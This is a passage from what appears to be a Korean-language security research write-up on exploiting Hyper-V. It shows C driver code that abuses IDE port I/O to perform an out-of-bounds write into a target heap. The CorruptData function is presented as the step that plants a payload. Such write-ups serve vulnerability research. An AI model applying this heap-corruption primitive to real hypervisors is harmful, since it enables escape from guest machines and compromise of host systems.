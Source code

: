 ```C
        cursor += 0x200;
    }
}
```

0x200 바이트 만큼 읽었을 때는 쓸 때와 다르게 오프셋이 증가하지 않기 때문에 `__outbyte(0x1f7, 0x30)`을 통해 오프셋을 따로 증가 시켜주었습니다. 읽거나 쓸 범위와 버퍼의 주소를 저장한 구조체는 아래와 같습니다
```C
typedef struct _Info {
	void* buffer;
	int from;
	int to;
}WriteInfo, ReadInfo;
```

### CorruptData
OOB Write로 타겟 힙에 데이터를 쓰는 함수입니다. 페이로드를 힙에 삽입하기 위해 사용하고 아래와 같이 구현했습니다
```C
void CorruptData(WriteInfo info) {
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Overwrite Data\n");
    int from = info.from, to = info.to, cursor = from;
    int* buffer = info.buffer;

    while (cursor < to) {
        while (!JumptoTargetHeap());
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Write to Offset %x\n", cursor);
        for (int i = 0; i < cursor; i += 0x200) __outbyte(0x1f7, 0x30);
        for (int i = 0; i < 0x200; i += 4) {
            __outdword(0x1f0, *buffer);
            buffer++;
        }
        cursor += 0x200;
    }
}
```
0x200바이트만큼 쓰면 오프셋이 0으로 줄어들어서 0x200 바이트를 쓸 때마다 다시 오프셋을 증가시킬 필요가 있습니다...

## Exploit
![](newjeans-hyper-v-pt4/image4.png)